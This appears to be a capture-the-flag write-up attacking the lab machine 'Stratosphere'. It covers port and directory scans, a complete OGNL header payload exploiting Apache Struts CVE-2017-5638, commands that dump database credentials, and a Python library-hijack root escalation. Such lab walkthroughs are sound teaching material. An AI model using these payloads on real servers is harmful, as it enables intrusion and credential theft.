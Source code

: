 ###  keyword

Struts-pwm, tomcat, mysql,  python lib inject

### information

Nmap 7.70 scan initiated Mon Mar 11 11:14:03 2019 as: nmap -sC -sV -oA nmap  64

Host is up (0.47s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
| ssh-hostkey:
|   2048 5b:16:37:d4:3c:18:04:15:c4:02:01:0d:db:07:ac:2d (RSA)
|   256 e3:77:7b:2c:23:b0:8d:df:38:35:6c:40:ab:f6:81:50 (ECDSA)
|_  256 d7:6b:66:9c:19:fc:aa:66:6c:18:7a:cc:b5:87:0e:40 (ED25519)
80/tcp   open  http
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 1114
|     Date: Mon, 11 Mar 2019 03:13:44 GMT
|     Connection: close

###   enum the website

gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u  host  -x html,txt,jsp

[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : html,txt,js

/index.html (Status: 200)
2019/03/11 11:35:22 [!] Get http://10.10.10.64/1125.txt: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/manager (Status: 302)
/GettingStarted.html (Status: 200)
/Monitoring (Status: 302)

###  look in the site 

![web](file:///home/parrot/image/startosphere.png)



is running tomcat. Heading to /Monitoring/ redirects me to /Monitoring/example/Welcome.action` which has a register and sign in functionality both of which were inactive. The extension `.action` is used sometimes instead of `.do` for apache struts action. Which reminded me of [CVE 2017-5638](https://www.cvedetails.com/cve/cve-2017-5638) which allows RCE through OGNL

### exploit

as you know that, here is the exploit about [struts-pwn](https://github.com/mazen160/struts-pwn) the An exploit for Apache Struts CVE-2017-5638

see the below request :

GET /Monitoring/example/Welcome.action HTTP/1.1
Host: 10.10.10.64
User-Agent: struts-pwn (https://github.com/mazen160/struts-pwn)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='which nc').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}

###  tomcat config 

 python3 struts-pwn.py  -u http://10.10.10.64/Monitoring/example/Welcome.action --cmd="ls -la"

drwxr-xr-x  5 root    root    4096 Mar 10 18:42 .
drwxr-xr-x 42 root    root    4096 Oct  3  2017 ..
lrwxrwxrwx  1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
-rw-r--r--  1 root    root      68 Oct  2  2017 db_connect
drwxr-xr-x  2 tomcat8 tomcat8 4096 Sep  3  2017 lib
lrwxrwxrwx  1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
drwxr-xr-x  2 root    root    4096 Mar 10 18:42 policy
drwxrwxr-x  4 tomcat8 tomcat8 4096 Feb 10  2018 webapps
lrwxrwxrwx  1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8

[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin

###  EXECute to db 

 python3 struts-pwn.py  -u http://10.10.10.64/Monitoring/example/Welcome.action --cmd 'mysql --us
er=admin --password=admin  -e "select * from users.accounts"'

fullName        password        username
Richard F. Smith        9tc*rhKuG5TyXvUJOrE^5CK7k       richard



###   knock into the system

richard@stratosphere:~$ sudo -l
Matching Defaults entries for richard on stratosphere:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User richard may run the following commands on stratosphere:
    (ALL) NOPASSWD: /usr/bin/python* /home/richard/test.py

came across this excellent post by rastating: https://rastating.github.io/privilege-escalation-via-python-library-hijacking/.

### payload 

 echo 'import os; os.system("/bin/bash")' > hashlib.py

